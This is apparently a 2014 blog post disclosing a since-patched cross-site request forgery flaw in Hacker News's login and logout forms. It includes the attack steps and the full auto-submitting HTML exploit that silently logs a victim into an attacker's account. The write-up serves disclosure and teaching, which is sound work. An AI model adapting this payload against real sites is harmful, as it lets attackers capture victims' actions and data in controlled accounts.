 ```yaml
---
layout: post
title: "Hacker News CSRF Vulnerability"
description: "How I found a CSRF vulnerability in Hacker News"
category: articles
modified: 2014-03-23
---
```

  
On February 17th, I discovered a session riding vulnerability on the login and logout forms of Hacker News. It was a textbook cross site request forgery (CSRF), triggered by clicking an article posted by the attacker.

The attack worked like this:

    1. Attacker submits a title like "CSRF And You (2008)" with a URL that points to the exploit code.
    2. User clicks on interesting article.
    3. User is logged out of account, silently logged into an attacker-controlled account, and sent to the comments section.
    4. User reads comments section for interesting article.
    5. User does other, more sensitive actions in the attacker-controlled account (apply for YC? change email? add credit card? make brilliant karma-rich submission?).

The exploit code looked like this:

    <body onload="document.getElementById('csrf_demo').submit()" style="display:none;">
      <img src="https://news.ycombinator.com/logout" />
      <form id="csrf_demo" action="https://news.ycombinator.com/login" method="post">
        <input name="goto" value="item?id=11122018">
        <input name="acct" value="csrf">
        <input name="pw" value="password">
      </form>
    </body>

I contacted Dan at Hacker News and the team immediately patched the vulnerabilities. This attack no longer works as described above.

To learn more about CSRF and how to protect your site against attacls like this one, read Jeff Atwood's excellent [CSRF and You (2008)](http://blog.codinghorror.com/cross-site-request-forgeries-and-you/) and review the [OWASP Wiki on CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). 

[Disclosure](https://news.ycombinator.com/security.html)